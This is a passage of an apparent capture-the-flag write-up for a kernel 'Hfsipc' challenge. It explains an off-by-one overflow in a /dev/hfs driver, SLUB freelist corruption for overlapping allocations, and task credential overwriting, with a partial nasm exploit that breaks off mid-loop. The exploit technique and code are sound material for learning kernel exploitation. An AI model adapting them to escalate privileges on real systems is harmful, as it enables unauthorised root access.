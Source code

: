 
## Pwn
### Hfsipc
Off-by-one byte overflow:

```c
if ( buf[1] <= (unsigned __int64)(c->size + 1) )
      {
        if ( !copy_from_user(c->ptr, buf[2], buf[1]) )
        {
          r = 0LL;
          printk(a6hfsIpcWroteZu, buf[1], (unsigned int)idx);

```
Default allocator of the Linux kernel - SLUB.

We can modify `fd` of `kmalloc_caches[5]` by Off-by-one byte overflow.
Create channel 2, `buf` of channel 2 will `kmem_cache_alloc` a `kmalloc_caches[5]` which is overlap with channel 1 structure, so that we can forge a fake channel structure to read/write everywhere in kernel.

Traverse circular linked list of tasks start from `init_task`, `struct list_head tasks`(offset 0x1d0) , overwrite `task->real_cred`(offset 0x3b8) `task->cred`(offset 0x3c0).

```nasm
[BITS 64]
; nasm -f elf64 pwn.S -o pwn.o && ld pwn.o -o pwn

global _start

section .text

_start:
	mov rdi, dev			; /dev/hfs
	mov rsi, 2
	mov rdx, 0
	mov rax, 2
	syscall				; open( "/dev/hfs" , O_RDWR , 0 ) = 3

	mov qword [arg], 0 	 	; id
	mov qword [arg+8], 0x20 	; size
	call create

        mov qword [arg], 1            
        mov qword [arg+8], 0x20          
	call create

	mov qword [arg], 1           
        mov qword [arg+8], 0x21      
        mov qword [arg+0x10], pwn    ; payload
        call write

	mov qword [arg], 3              
        mov qword [arg+8], 0x20         
        call create			; Overlap!


	mov qword [i], 0
	mov qword [base], 0xffffffff81a1b4c0 ; init_task
	add qword [base], 0x1d0 ; init_task->tasks
				 ; struct list_head tasks;
loop:
	mov rbx, qword [base]
	sub rbx, 0x1d0
	add rbx, 0x3c0			; &(p->cred)      const struct cred __rcu *cred;
```